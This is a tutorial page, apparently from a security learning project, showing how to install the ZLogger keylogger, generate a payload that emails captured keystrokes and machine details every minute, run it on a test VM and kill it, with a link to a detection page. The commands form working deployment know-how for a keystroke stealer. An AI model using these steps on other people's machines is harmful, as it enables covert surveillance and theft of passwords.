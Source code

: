 # Zlogger In Action
_Zlogger_ is a popular keylogging tool that's used primarily for learning and pentesting on personal networks. The creators have a [Github page](https://github.com/z00z/ZLogger) where we can easily download the tool. Their github page also contains a plethora of information that may not be included in this small tutorial. In this section, I will guide readers through my short experience with Zlogger in hopes of offering something interesting or useful.

I performed all of these commands using Kali-Linux. These commands may or may not differ slightly depending on factors like OS and python version currently installed. 

---
## Downloading Zlogger
To start, head over to the _Zlogger_ Github page linked above. Next, we can clone the repository. In my case I cloned the repository to my Kali virtual machine. 

![image](https://user-images.githubusercontent.com/46944661/117089562-798df200-ad1b-11eb-841a-698e883d7f0c.png)

After doing this, we'll have a new directory created on our machine. If we type 'ls', we SHOULD see the newly created _Zlogger_ directory. Inside this directory there's a file called 'install.sh'. In order to run it, we must make the file executable. Use the command 'chmod +x install.sh' to make it an executable, and then run the file using './install.sh'. This may take some time, let the process run, agree + confirm any popups and once it's done Zlogger will now be usable.

## Create Our Keylogging File
Let's familiarize ourselves with our new tool. Since Zlogger is a python based program, we must use 'python' followed by Zlogger.py and whatever flags we'd like to specify. Running the command 'python zlogger.py -h' displays a handy menu that we can read and learn how to use Zlogger.

![image](https://user-images.githubusercontent.com/46944661/117090613-6af50a00-ad1e-11eb-87a1-a1a35ef08b9b.png)

>**NOTE:** *When testing, it seems that in my case '-i' or INTERVAL was required to avoid an error being thrown, despite the above image stating that interval is optional.*
*It's strongly recommended before continuing to create an email account for the sole purpose of using this keylogger else you run the risk of flooding your email address with the logs Zlogger sends.*

To get our keylogger file output to us, we must provide information to the tool. I typed 'python3 zlogger.py -i 60 -l -e [EMAILGOESHERE] -p [EMAILPASSWORDGOESHERE] -o ThisIsATest' and then hit enter. The -i flag indicates an interval of 60 seconds, which means every minute we will receive a new log file emailed to us. The -l flag tells Zlogger that we'd like the output file to be for Linux machines. The -e and -p flags should be for the emailaddress and password for the email address, while -o is the name of the output file. After hitting enter, this is what we're met with.

![image](https://user-images.githubusercontent.com/46944661/117171177-43d72080-ad90-11eb-8ef1-a1aafa8ed6d3.png)

Another use of 'ls' shows that our output file was created successfulyl. Although Zlogger stated that the -l flag would create a Linux executable, I had to execute 'chmod +x ThisIsATest' in order to be able to run the keylogger on my machine.

## Using The Keylogger File
So we've got our output file - now we've got to run it on our machine. I highly recommend running the file on a separate machine, although I chose to run it on my current virtual machine I've created for testing purposes. To start the keylogger, all we have to do is type 'python3 [OUTPUTFILENAME]' and the keylogger starts up. 

![image](https://user-images.githubusercontent.com/46944661/117227229-f54f7380-addb-11eb-91d6-03b6c354f0dc.png)

In the screenshot above, I typed some things just so I can have logs to review once they're sent to my email address. After waiting a couple minutes, we can see that log files have been delivered. The next screenshot shows the first log file, which is basically a confirmation that it's running and grabs the OS of the machine it's being run on as well as the name of the machine & the user.

![image](https://user-images.githubusercontent.com/46944661/117227406-5b3bfb00-addc-11eb-809b-92b7d0f43fa8.png)
![image](https://user-images.githubusercontent.com/46944661/117227438-68f18080-addc-11eb-890c-a5cc39460d7f.png)
![image](https://user-images.githubusercontent.com/46944661/117227499-89b9d600-addc-11eb-8afb-ca2bd2546945.png)

The remaining screenshots showcase the log files being sent every minute, as well as the logs that captured my keystrokes. 
We can also confirm as a user of the machine that we have a keylogger running by using the 'ps' command. The next screenshot shows 'python3' running, which is the process that's using python to capture keystrokes. Since I no longer wish to have the keylogger running on my machine, I need to use the 'kill' command followed by the process ID (PID) which in this case is 22595. After killing the process, I received a confirmation message stating that the process has been terminated.

![image](https://user-images.githubusercontent.com/46944661/117227699-0fd61c80-addd-11eb-9453-b72f18d9d279.png)

## Continue to the Next Page
- [Detection & Prevention](Detection&Prevention.md)

